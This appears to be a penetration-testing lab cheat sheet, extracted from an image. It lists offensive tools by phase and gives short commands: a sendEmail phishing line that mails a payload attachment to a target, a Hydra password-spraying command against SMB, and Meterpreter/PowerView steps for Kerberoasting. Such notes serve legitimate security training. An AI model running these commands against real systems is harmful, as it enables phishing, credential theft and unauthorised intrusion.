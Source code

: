 # Email Client
### Cobalt Strike
### SendEmail

```
sendEmail -o tls=no -t target@corp.com -f hacker@foo.bar -s
123.123.123.?:25 -u foo -a payload.py -m Click Me
```


# Enumeration
### PowerSploit

# Visual Inspection
### Aquatone
### EyeWitness

# Directory Bruce-Force
### DirBuster
### Gobuster

# Password Attacks
### hashcat
### Hydra
Hint: **Passwords formatted Season + year + punctuation are popular password options (in the case of this exercise, assume the year is 2018).** Example:
```
hydra -L domain_users.txt -P pwd_guesses.txt -o output.txt 10.10.10.10 smb.
```
### Kerberoast
When you have a Meterpreter shell on a target, you may be able to use the Kerberoast method to obtain crack-able strings from the target. 
```
load powershell
```
Then import PowerView.ps1 located in the '/root/Tools/PowerSploit/Recon'with the command.
```
powershell_import "/path/to/"PowerView.ps1
```
Open a PowerShell shell on the target using:
```
powershell_shell
```
So that you can run:
```
Invoke-Kerberoast | fl
```
If this method is successful, a hash or multiple hashes will be displayed in the output.
